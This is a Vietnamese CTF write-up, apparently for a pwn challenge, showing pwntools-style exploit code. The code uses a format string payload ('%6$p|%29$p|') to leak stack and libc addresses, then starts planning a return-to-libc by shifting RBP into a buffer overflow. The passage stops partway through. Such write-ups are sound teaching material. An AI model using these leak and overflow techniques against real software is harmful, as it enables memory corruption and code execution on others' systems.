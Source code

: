 ### Format String Bug 

Đề bài cho chúng ta Dockerfile, hướng tiếp cận của mình là tận dụng bug trên để Return To Libc. 

Mình định nghĩa một số hàm để thao tác nhanh với chương trình như sau
```python
def login(username, password): 
    sla(b"> ", b"1")
    sla(b"Username: ", username.encode("utf8"))
    sla(b"Password: ", str(password).encode("utf8"))

def register(username, password, fullname): 
    sla(b"> ", b"2")
    sla(b"New username: ", username.encode("utf8"))
    sla(b"New password: ", str(password).encode("utf8"))
    sla(b"Your full name: ", fullname)

def info():
    sla(b"> ", b"3")

def logout(feedback): 
    sla(b"> ", b"4")
    sla(b"Please leave a feedback: ", feedback)
```

#### Leak stack & libc 
Bước đầu tiên, chúng ta sẽ đi tạo một account với fullname là `payload` nhằm leak được các giá trị như stack, libc. 

```python
payload = b"%6$p|%29$p|"
register("hacker", 123, payload)
login("hacker", 123) 
info()

data_leak  = rl().strip().split(b"|")
stack_leak = int(data_leak[0], 16)
libc_leak  = int(data_leak[1], 16) 
libc_base  = libc_leak - libc.symbols["puts"] - 0x01fa

log.info(f"stack leak = {hex(stack_leak)}")
log.info(f"libc leak = {hex(libc_leak)}")
log.info(f"libc base = {hex(libc_base)}")
```

### Bug Stack Buffer Overflow 

Về cơ bản, chương trình không có bug BOF. Nhưng chúng ta đang có một số thứ để có thể trigger được bug này. 
- Chức năng `logout` cho nhập feedback có kích thước tối đa 256 byte. 
- FSB cho phép thay đổi giá trị của thanh ghi `RBP`. 

Khi end chương trình, `RSP` sẽ nằm ở vị trí `0x00007fffffffdc48`, vậy `RBP` sẽ là `0x00007fffffffdc40`. 

